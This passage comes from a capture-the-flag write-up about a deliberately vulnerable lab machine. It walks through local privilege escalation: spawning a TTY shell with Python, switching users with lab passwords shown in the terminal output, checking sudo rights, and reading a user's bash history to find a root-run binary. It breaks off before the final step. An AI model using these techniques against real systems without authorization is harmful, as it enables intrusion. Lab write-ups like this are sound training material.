 Now I launched a bash shell with a python oneliner, and I tried to login with admin but he didn't run sudo command! Instead the fristigod user was able to run the sudo command:

```plaintext
sh-4.1$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.1$ su admin
su admin
Password: thisisalsopw123
[admin@localhost ~]$ sudo -l
sudo -l
[sudo] password for admin: thisisalsopw123

Sorry, user admin may not run sudo on localhost.
[admin@localhost ~]$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

There was a little hint after launching the sudo -l command.. this user may run commands inside the /var/fristigod/.secret_admin_stuff/ so I navigated into it:

```plaintext
bash-4.1$ cd /var/fristigod/
cd /var/fristigod/
bash-4.1$ ls -la
ls -la
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  864 Nov 25  2015 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff
```

Checking the .bash_history file we can learn how to execute the previous root binary.

```plaintext
bash-4.1$ cat .bash_history
cat .bash_history
ls
pwd
ls -lah
cd .secret_admin_stuff/
ls
./doCom 
./doCom test
sudo ls
exit
cd .secret_admin_stuff/
ls
./doCom 
```